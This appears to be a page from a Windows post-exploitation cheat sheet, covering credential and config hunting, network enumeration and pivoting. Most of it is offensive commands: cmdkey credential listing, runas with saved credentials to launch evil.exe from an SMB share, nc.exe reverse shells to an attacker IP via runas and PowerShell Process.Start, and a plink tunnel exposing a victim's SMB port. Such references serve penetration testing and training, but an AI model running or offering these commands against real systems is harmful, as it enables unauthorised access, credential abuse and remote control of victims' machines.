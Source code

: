 ```
Get-Childitem –Path C:\inetpub\ -Include web.config -File -Recurse -ErrorAction SilentlyContinue
```
IIS and Apache logs?
```
dir /s access.log error.log
C:\inetpub\logs\LogFiles\W3SVC1\u_ex[YYMMDD].log
C:\inetpub\logs\LogFiles\W3SVC2\u_ex[YYMMDD].log
C:\inetpub\logs\LogFiles\FTPSVC1\u_ex[YYMMDD].log
C:\inetpub\logs\LogFiles\FTPSVC2\u_ex[YYMMDD].log
```
If XAMPP/WAMPP, Apache, or PHP is installed check the config files
```
dir /s php.ini httpd.conf httpd-xampp.conf my.ini my.cnf
```

Check for stored creds with cmdkey
```
cmdkey /list
```
Then you can run something like this over SMB with any saved credientials
```
runas /savecred /user:WORKGROUP\Administrator "\\10.XXX.XXX.XXX\SHARE\evil.exe"
```
Or you can use runas and feed it credentials
```
C:\Windows\System32\runas.exe /env /noprofile /user:<username> <password> "c:\users\Public\nc.exe -nc <attacker-ip> 4444 -e cmd.exe"
```
```
$ secpasswd = ConvertTo-SecureString "<password>" -AsPlainText -Force
$ mycreds = New-Object System.Management.Automation.PSCredential ("<user>", $secpasswd)
$ computer = "<hostname>"
[System.Diagnostics.Process]::Start("C:\users\public\nc.exe","<attacker_ip> 4444 -e cmd.exe", $mycreds.Username, $mycreds.Password, $computer)
```


### Networking

Check the simple stuff...
```
ipconfig /all
route print 
arp -a 
net share
Get-NetIPConfiguration | ft InterfaceAlias,InterfaceDescription,IPv4Address
Get-DnsClientServerAddress -AddressFamily IPv4 | ft
Get-NetRoute -AddressFamily IPv4 | ft DestinationPrefix,NextHop,RouteMetric,ifIndex
Get-NetNeighbor -AddressFamily IPv4 | ft ifIndex,IPAddress,LinkLayerAddress,State
```

Some services might be open on the outside or the inside only of the network. Look for local address 127.0.0.1 or something internal.
```
netstat /a
netstat -ano
```
So to expose SMB on a victim for example, upload plink.exe from /usr/share/windows-binaries, start SSH on attacker machine then on victim run
```
plink.exe -l root -pw password -R 445:127.0.0.1:445 YOURIPADDRESS
```
